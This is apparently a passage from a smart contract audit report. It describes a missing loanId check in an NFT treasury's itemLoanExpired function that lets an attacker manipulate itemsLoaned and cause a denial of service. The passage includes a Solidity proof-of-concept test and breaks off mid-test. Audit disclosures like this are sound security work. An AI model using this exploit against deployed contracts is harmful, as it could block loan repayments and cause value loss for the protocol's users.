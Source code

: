 However, there is no check to ensure that the passed `loanId` is valid. Since we are reading the `ItemLoan` struct from a storage mapping, if an invalid `loanId` is passed, the struct will be initialized with default values for all its properties (in contrast to an array where this would revert).

Therefore, an adversary can simply call `itemLoanExpired` passing a `loanId` higher than the value of the incremental `itemLoanId` counter, and that way manipulate the `itemsLoaned` variable.

Furthermore, anyone can borrow an NFT, wait for the expiry period to pass (which can be as little as 1 second), and cancel the loan multiple times since there is no check whether it has already been canceled.

The impact is that sequential calls to the `itemLoanExpired` function will revert due to underflow, as well as to `sendLoanedItemBack`, resulting in a Denial-of-Service for the NFT borrowing functionality:

Also, the `realFloorValue` of all NFTs will decrease significantly which is a value loss for the protocol and its users.

```solidity
function realFloorValue() public view returns (uint256 value_) {
    uint256 float_ = float();

    if (float_ > 0) value_ = (backing + backingLoanedOut - collateralHeld) / float_;
}

function float() public view returns (uint256 float_) {
    uint256 totalSupply_ = collection.totalSupply();
    uint256 treasurySupply_ = collection.balanceOf(address(this));

    float_ = totalSupply_ - (itemsLoaned + treasurySupply_ - loansOnCollection);
}
```

**Proof of Concept:**

The full PoC for this finding can be found at [\textit{this link}](https://gist.github.com/gogotheauditor/50074f0323065908b92c561f7c4e6e17).

\pagebreak

```solidity
function test_Proof_of_Concept_C3() external {
    _helperMintNTLC(address(this), 100);
    _helperDealWETH(address(this), 10e18);

    // 1. Redeem 10 NFTs so there's some balance in the treasury.
    for (uint256 i; i < 10; i++) {
        collection.approve(address(treasury), i);
        treasury.redeemItem(i);
    }
    assertEq(treasury.float(), 100 - 10);
    assertEq(collection.balanceOf(address(treasury)), 10);

    // 2. Borrow 5 NFTs.
    weth.approve(address(treasury), type(uint256).max);
    for (uint256 i; i < 5; i++) {
        treasury.loanItem(i, 1 days);
    }
    assertEq(treasury.float(), 100 - 10);
    assertEq(treasury.itemsLoaned(), 5);
    assertEq(collection.balanceOf(address(treasury)), 5);

    // 3. Manipulate the `itemsLoaned` variable to block item loans repayments.
    uint256 invalidLoanId = type(uint256).max;
    for (uint256 i; i < 5; i++) {
        treasury.itemLoanExpired(invalidLoanId);
    }
    assertEq(treasury.itemsLoaned(), 0);
```